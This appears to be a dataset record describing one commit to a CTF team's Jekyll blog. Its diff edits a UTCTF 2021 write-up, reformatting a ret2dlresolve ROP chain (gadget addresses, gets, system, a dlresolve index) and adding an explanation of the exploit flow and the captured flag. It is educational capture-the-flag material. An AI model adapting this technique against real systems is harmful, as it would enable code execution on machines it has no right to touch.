

Before and after one commit to ubcctf/ubcctf.github.io, a Jekyll site: the page built from _posts/2021-3-14-utctf-resolve.md, in a window 1280 px wide. Shown: the whole page at 99% size, without its empty margins (258-1018 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 1392 px from its top, so only the background shows below that.

Commit message:
fix rop chain

````diff
--- a/_posts/2021-3-14-utctf-resolve.md
+++ b/_posts/2021-3-14-utctf-resolve.md
@@ -53,13 +53,22 @@
 The rop chain looks something like this:
 
 ```
-0x0000:         0x4011c3 pop rdi; ret                                                                                   0x0008:         0x404e00 [arg0] rdi = 4214272                                                                           0x0010:         0x401044 gets                                                                                           0x0018:         0x401159                                                                                                0x0020:         0x4011c3 pop rdi; ret                                                                                   0x0028:         0x404e50 [arg0] rdi = 4214352                                                                           0x0030:         0x401020 [plt_init] system                                                                              0x0038:            0x310 [dlresolve index]
+0x0000:         0x4011c3 pop rdi; ret
+0x0008:         0x404e00 [arg0] rdi = 4214272
+0x0010:         0x401044 gets(arg0)
+0x0018:         0x401159 ret; #for stack alignment
+0x0020:         0x4011c3 pop rdi; ret
+0x0028:         0x404e50 [arg0] rdi = 4214352
+0x0030:         0x401020 [plt_init] system
+0x0038:         0x310 [dlresolve index]
 ```
+
+Our overall program flow will look like `main()->pop rdi->gets()->pop rdi->system()->_dl_runtime_resolve()->system()`. The `pop rdi`'s are to setup arguments to functions later in the chain.
 
 So just aim this at the server and ye shall receive the flag.
 `utflag{2_linker_problems_in_one_ctf?8079235}`
 
-It's pretty cool that we can still call libc functions without the use of address leaks. This exploit will definitely be something that I keep in mind for the future. Although it was really simple for this challenge due to no PIE which probably simplified where we could put the dlpayload.
+It's pretty cool that we can still call libc functions without the use of address leaks. This exploit will definitely be something that I keep in mind for the future. Although it was really simple for this challenge due to no PIE which probably simplified where we could put the dlpayload. Also pwntools is an awesome tool and thank god it exists.
 
 
 
````
